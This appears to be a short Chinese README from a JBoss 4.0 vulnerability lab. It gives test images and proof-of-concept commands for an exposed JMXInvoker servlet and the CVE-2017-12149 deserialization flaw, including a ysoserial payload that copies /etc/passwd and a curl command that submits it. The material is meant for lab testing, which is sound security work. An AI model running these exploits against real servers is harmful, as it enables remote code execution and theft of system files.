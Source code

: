 ### 运维安全 - JMXInvoker/HTMLAdaptor/... 对外暴露

测试镜像

* src/base/jboss4.0

Poc

```
java -jar jboss_exploit_fat.jar -i http://127.0.0.1/invoker/JMXInvokerServlet
```

### CVE-2017-12149 - /invoker/readonly 反序列化漏洞

测试镜像

* src/base/jboss4.0

参考文档

* [JBoss反序列化漏洞（CVE-2017-12149）](https://zhuanlan.zhihu.com/p/33532884)

Poc

```
# 生成 payload
java -jar /tmp/ysoserial.jar Jdk7u21 "cp /etc/passwd /tmp" > test

# 提交
curl -vv http://127.0.0.1/invoker/readonly --data-binary @test
```

